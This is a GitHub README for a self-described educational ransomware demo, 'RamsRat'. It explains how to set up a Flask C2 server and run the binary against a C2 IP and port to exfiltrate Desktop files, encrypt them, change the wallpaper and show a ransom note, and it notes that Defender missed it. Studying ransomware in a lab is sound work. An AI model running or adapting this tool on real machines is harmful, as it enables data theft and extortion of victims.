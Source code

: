 # RamsRat-Ransomware
A fake Ransomware to understand exactly how it works.

**DISCLAIMER: I am not responsible for anything you do with this script. I provide this script and my pseudo-knowledge for the sole purpose of educating, not destroying.**

[Version-Française](https://github.com/Raaatus/RamsRat-Ransomware/blob/main/readme-fr.md)

To understand how ransomware works, it's important to note that the following is a general description. Ransomware can vary considerably depending on the specific features of each virus.

In general, ransomware :

- Is executed by the host or attacker on the target machine.
- Creates a key (often 32-bit, which can take a long time to break).
- Sends files to a command and control (C2) server.
- Encrypts files with the key.
- Demands a ransom.

## Ransomware

Ransomware is scripting software that executes code to encrypt personal data. It may or may not extract this data to a remote server, so that even if you pay the ransom, the attackers can still use it.

You are then asked to pay in exchange for the decryption key (and sometimes a decryptor).

The end of the story depends solely on the good faith of the person who encrypted your computer (lol).

## C2 server

A C2 (command and control) server is mainly used to manage the victims of your payloads, a bit like sessions in Metasploit.
Here, it's simply a Python script that allows you to receive files via a link.


## Build requirements

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
-  [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prerequisites Started

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
- [Python 3](https://www.python.org/downloads/) (on Windows or Linux, it doesn't matter).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## How it works


**<!>  Encrypts only files on the desktop, not folders or other locations.**

- Run by user.
- Copies files from the Desktop to: `Desktop/DecryptFiles`.
- Sends desktop files to C2 server.
- Change wallpaper.
- Executes a `readme.txt`.
- Encrypts the desktop files with a 32-bit key.

The result is a completely encrypted desktop.

The copied files are in `Bureau/DecryptFiles`.

Files on the control server (C2) are decrypted and downloaded.

As this is a demonstration, no data persistence or corruption will occur.

Finally, a decryptor `Decryptor.exe` and the 32-bit key will be needed if you want to decrypt the data on the Desktop.

**Again, there's a copy of this data in `Desktop/DecryptFiles`, so you don't have to decrypt the desktop files. You can simply copy them.**

## Get Started

As mentioned earlier, this script is theoretically harmless. However, it can easily be modified to cause damage. Use only the script from this [GITHUB](https://github.com/Raaatus/RamsRat-Ransomware).

The C2 server is independent of the ransomware. It can be remote or local, on another machine or on the machine to be encrypted.

### C2 server installation

- Installation of dependencies :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Launch the c2 server. **(If it's on Windows, don't put the script on the desktop)**

  ![plot](./img/serverc2.png)

### Ransomware execution

Defender ?

![plot](./img/defenderanalyse.gif)


Defender is probably being fooled by the build, but I'm disappointed that it doesn't even detect file encryption on your PC.

- After you've built or downloaded the release, you end up with a `Ramsom` folder.
- Place it anywhere on the machine you want to “check”.

- Run cmd to specify the C2 server and port. Type `cmd` at the top of the address bar.
  ![plot](./img/cmdexec.png)


- Finally, execute the command 
     `RamsRat.exe ip-server-c2 port-server-c2 ` == 
     `RamsRat.exe 10.0.24.55 5000`

- At the end of execution : 
  - The desktop is encrypted and the wallpaper changed:
  
    ![plot](./img/Execution.gif)

  - Readme opened with instructions (Fake):

 ![plot](./img/encryptdesk.png)

  - The files have been sent to C2 and are readable: 

    ![plot](./img/filesc2.png)

  

- We still find our files copied to `Bureau/DecryptFiles`. As well as the decryption key:

    ![plot](./img/decryptfiles.png)

  
### File decryption

With the Ransomware I supply the Decryptor.exe.

It is supplied with the path of the encrypted folder and the key. Here it's simple: both are on the desktop.

Use cmd and the command.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Cleaning 

- With decryptor : 
  - Decrypt your data
  - Delete all .ratus files
  - Delete `DecryptFiles` folder
  - Delete readme
  - Delete project (optional)
- Without decryptor :
  - Copy files from `DecryptFiles` to Desktop
  - Delete .ratus
  - Delete readme
  - Delete `DecryptFiles
  - Delete project (optional)
- Serverc2 :
  - Delete python script
  - ipip unistall Flask
